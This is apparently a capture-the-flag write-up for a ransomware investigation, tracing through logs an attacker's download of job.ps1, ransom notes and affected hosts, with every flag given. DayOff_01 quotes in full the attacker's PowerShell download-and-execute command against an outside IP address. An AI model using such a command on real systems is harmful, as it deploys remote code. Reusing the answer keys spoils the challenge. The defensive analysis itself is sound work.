



# DayOff

## DayOff_01
> After unsuccessfull data exfiltration on Exchange server and after failing his primary objective, adversary decided to at least do as much harm as possible. Still on the Exchange, he downloaded another powershell script. What is the URL from which the script was downloaded?

While investigating commands executed on Exchange server, we saw following command executed sometime after unsuccessful attempt to stop Exchange:


```
powershell -Command & {Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass -Force; Invoke-WebRequest -Uri 'http://72.21.192.5/job.ps1' -OutFile 'c:\windows\syswow64\com\dmp\enjoyfreeworkday.ps1';c:\windows\syswow64\com\dmp\enjoyfreeworkday.ps1}
```

> Flag: `http://72.21.192.5/job.ps1`

## DayOff_02
> How many times (or on how many computers) was this file downloaded? Think twice before answering this question, you have only 3 attempts to answer this question. If you can't find the correct answer, it is the end of the game for you.

Searched for `powershell.file.script_block_text: "http://72.21.192.5/job.ps1"` while also removing all filters and ensuring full timeframe was selected, then looked at field statistics - distinct value for `host.name`:



> Flag: `23`

## DayOff_03
> What is the full file.path where the file was downloaded?

We have answer for this in [DayOff_01](#dayoff_01):

> Flag: `c:\windows\syswow64\com\dmp\enjoyfreeworkday.ps1`

## DayOff_04
> Another tricky one with only 3 attempts to answer it. From all the computers, where job.ps1 was downloaded, there are 2 computers, where evidence of enjoyfreeworkday.ps1 file creation is missing (Sysmon was not running on them). What are these 2 computers? Answer in format (without quotes) "computer1,computer2". "computer2,computer1" will be accepted too.

Here we used power of Visualize library, where we want to see all the hostnames on which `enjoyfreeworkday.ps1` file creation was captured by sysmon, so that we can identify the two where it was not reported.
First we set up filters and search string:


Next, we select table view and add `host.name` into row data and select count as metric:



The result is table containing all hosts where this event was triggered, we just had to cross-check that with office inventory and identify the two missing:


> Flag: `msexch16,officewin5`

## DayOff_05
> Missing Sysmon on 2 computers starts complicating the things for us a little bit, so doublecheck your answer before entering the flag. What is the most frequent file.path of the ransom note? Again, 3 attempts.

Started looking at the events with filter `event.action:File create (rule: FileCreate)` and noticed spike around `22:10` which could result from file encryption activity. 


Focused on that timeframe and used the Field statistics and looked at the `file.name` for suspicious files created and one stood out: `teViazD4k.README.txt`. 


After searching for `file.path:*teViazD4k.README.txt*` in full timeframe, the top `file.path` was identified:


> Flag: `C:\Temp\teViazD4k.README.txt`

## DayOff_06
> How many copies of ransom note were created (are visible in the logs to be precise)? Again, 3 attempts.

From previous task, we saw total documents count `331`:

> Flag: `331`

## DayOff_07
> How many copies of ransom note were created on the computer with the most copies of ransom note?

Used some graph editing magic to display hosts with top number of ransom note files occurrences and then looked the number that the one with most occurrences has.


> Flag: `143`

## DayOff_08
> What is the SHA256 hash of the ransomware ps1 file? Sorry, 3 attempts maximum to prevent guessing.

We know that the ransomware ps1 file was downloaded from `http://72.21.192.5/job.ps1` but we could not find any sha256 in the logs. So we tried OSINT technique to see if we can find the answer. We started with googling `teViazD4k.README.txt` which lead us to `https://tria.ge/250110-qwg51sxphm` where we learned this is lockbit malware and noticed the sha256 there `e4127a5742f378ccf72cfb4f2166a692483c1e2289422546f726806fc696aef2` but it was not accepted. Then we took the name of the target file `21a7fba68d5abd4c3837521c2e86a03454e98a4f9517fa83ff00c47fb3c4cd44` and checked it against VirusTotal page `https://www.virustotal.com/gui/file/21a7fba68d5abd4c3837521c2e86a03454e98a4f9517fa83ff00c47fb3c4cd44` and noticed it references `job.ps1` and `powershell` and tried to submit it and it was accepted answer.

> Flag:`21a7fba68d5abd4c3837521c2e86a03454e98a4f9517fa83ff00c47fb3c4cd44`

## DayOff_09
> What is the ransomware family of this ransomware? One word, 3 attempts max.

From VirusTotal page:


> Flag: `lockbit`

## DayOff_10
> There are 2 computers (on top of the other two where sysmon was not running), where ps1 file was downloaded, but ransom note was not created. What are the host.names of them? Answer in format (without quotes) "computer1,computer2". "computer2,computer1" will be accepted too. This is the final question of the qualification.

As we know from previous task [DayOff_04](#dayoff_04) that malware was executed on 21 hosts, we need to search for `file.path:*teViazD4k.README.txt*` and by utilizing Field statistics compare with [DayOff_04](#dayoff_04) to see which host.hostname are missing.

Searching for revealed that ransomware note was executed on 19 systems:



It was easy from here to cross-check with [DayOff_04](#dayoff_04) and identify two missing hosts.

> Flag: `rds1,rds2`


